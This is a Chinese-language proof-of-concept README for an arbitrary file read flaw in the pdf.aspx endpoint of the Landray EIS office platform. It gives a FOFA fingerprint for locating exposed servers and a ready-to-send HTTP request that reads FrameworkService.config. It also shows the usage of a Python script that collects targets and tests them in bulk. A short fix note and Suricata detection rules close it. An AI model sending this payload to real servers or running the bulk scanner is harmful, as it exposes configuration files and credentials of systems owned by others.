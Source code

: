 ### 产品简介  
蓝凌EIS智慧协同平台是一个简单、高效的工作方式专为成长型企业打造的沟通、协同、社交的移动办公平台，覆盖OA、沟通、客户、人事、知识等管理需求，集合了非常丰富的模块，满足组织企业在知识、项目管理系统建设等需求的一款OA系统。  

### 漏洞概述  
蓝凌EIS智慧协同平台pdf.aspx文件存在任意文件读取漏洞。攻击者可通过该漏洞在服务器端读取任意文件敏感内容，可能导致攻击者后续获取到相关的服务器权限。  

### 指纹识别  
fofa: icon_hash=“953405444”  

![Image text](https://github.com/YUUKI4O4/POC/blob/main/Lanling_EIS_File_read_vulnerability/1.png)
![Image text](https://github.com/YUUKI4O4/POC/blob/main/Lanling_EIS_File_read_vulnerability/2.png)

### 漏洞利用  
```
poc:
GET /EIS/service/pdf.aspx?path=/FrameworkService.config HTTP/1.1
Host: your_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1


```

### 测试和利用脚本  
```
python3 Lanling_EIS_File_read_vulnerability.py -h
usage: Lanling_EIS_File_read_vulnerability.py [-h] [-t] [-r FILE] [-u URL]

### LanLing EIS pdf.aspx Arbitrary File Reading Vulnerability. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python Lanling_EIS_File_read_vulnerability.py
                        -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python Lanling_EIS_File_read_vulnerability.py
                        -u http://xxx.xxx.xxx
```

### 修复建议  
1.联系相关软件厂商更新至最新安全版本。  

### Suricata rules  
```
alert http any any -> any any (msg:"LanLing EIS pdf.aspx Arbitrary File Reading Vulnerability."; flow:established,to_server; flowbits:set,Lanling_EIS_File_read_vulnerability; content:"get";http_method;nocase; content:"/EIS/service/pdf.aspx?path=";http_uri;fast_pattern;nocase; reference:url,https://github.com/YUUKI4O4/POC/tree/main/Lanling_EIS_File_read_vulnerability; classtype:web-attck; metadata:created_at 2024-01-15,updated_at 2024-01-15,creater:YUUKI4O4; sid:17; rev:1;)
alert http any any -> any any (msg:"LanLing EIS pdf.aspx Arbitrary File Reading Vulnerability Success."; flow:established,from_server; flowbits:isset,Lanling_EIS_File_read_vulnerability; content:"200";http_stat_code; pcre:"/^([A-Za-z0-9+/]{4})*([A-Za-z0-9+/]{4}|[A-Za-z0-9+/]{3}=|[A-Za-z0-9+/]{2}==)$/Q"; reference:url,https://github.com/YUUKI4O4/POC/tree/main/Lanling_EIS_File_read_vulnerability; classtype:web-attck; metadata:created_at 2024-01-15,updated_at 2024-01-15,creater:YUUKI4O4; sid:18; rev:1;)
```
